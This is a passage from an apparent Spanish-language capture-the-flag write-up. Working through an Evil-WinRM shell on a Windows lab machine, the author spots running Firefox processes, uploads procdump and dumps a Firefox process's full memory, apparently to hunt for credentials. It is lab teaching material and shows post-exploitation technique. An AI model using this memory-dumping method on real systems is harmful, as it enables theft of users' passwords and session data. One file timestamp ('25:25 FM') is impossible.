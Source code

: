 **Primero**, es un proceso activo, lo digo por la fecha y **segundo**, *Firefox* no viene instalado por default en **Windows**, así que eso nos debe llamar la atención...

Validando, efectivamente **Firefox** esta activo y ejecutando "algo":

```powershell
*Evil-WinRM* PS C:\> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName  
-------  ------    -----      -----     ------     --  -- -----------  
...
   1052      70   149408     224568       6.69   6184   1 firefox
    347      20     9788      34516       0.05   6292   1 firefox
    401      34    32124      92720       0.92   6436   1 firefox
    378      28    22300      59200       0.48   6732   1 firefox
    355      25    16336      38980       0.14   6996   1 firefox
...
```

Bien, tenemos varias cositas para ir detrás de **Firefox**, podemos aprovechar esos procesos para dumpear lo que esta pasando mientras están activos, para esto podemos usar [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), así que descarguémoslo (en el anterior link esta también el binario) yyy subámoslo a la máquina:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Videos> dir 

    Directory: C:\Users\Chase\Videos

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2021  25:25 FM         725368 procdump.exe
```

Entonces, tomemos uno de los procesos que esta ejecutando **Firefox**, como por ejemplo el primero:

```powershell
*Evil-WinRM* PS C:\> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName  
-------  ------    -----      -----     ------     --  -- -----------  
...
   1052      70   149408     224568       6.69   6184   1 firefox
...
```

Sacamos el **Id** y ejecutamos el dumpeo:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Videos> .\procdump.exe -ma 6184
```

> `-ma` : Write a dump file with all process memory.

```powershell
[02:14:28] Dump 1 initiated: C:\Users\Chase\Videos\firefox.exe_210613_021428.dmp
[02:14:28] Dump 1 writing: Estimated dump file size is 508 MB.
[02:14:28] Dump 1 complete: 509 MB written in 0.6 seconds
[02:14:29] Dump count reached.
```
